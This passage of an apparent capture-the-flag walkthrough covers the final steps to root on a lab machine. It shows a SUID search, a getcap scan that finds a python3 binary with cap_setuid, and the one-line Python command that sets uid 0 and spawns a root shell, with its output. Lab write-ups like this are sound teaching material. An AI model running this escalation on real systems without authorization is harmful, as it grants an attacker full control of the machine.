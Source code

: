 -> Nothin useful here, cause we could not escalate through the root script without write permissions.
  
Check for SUID binaries: `find / -type f -perm -04000 -ls 2>/dev/null`
-> Nothing interesting there.
  
Check for "linux capabilities" (hint from webserver): 
  
```sh
getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep

```
###
**Task 1.5 and 1.6 solved**
### 
  

---
  
  
  
## <ins>Final step to root</ins>  
  

We find our way to go. Use the linux capabilities.
Here you will find a [link](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities) to an explanation by hacktricks. To escalate with python we will use GTFObins() for the escalation command.
  
```sh
getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
kiba@ubuntu:~$ /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
# bash -i
root@ubuntu:~# wc -c /root/root.txt
45 /root/root.txt
```  
  
   
###
**Task 1.7 solved**
###   
  
  
  
  
  
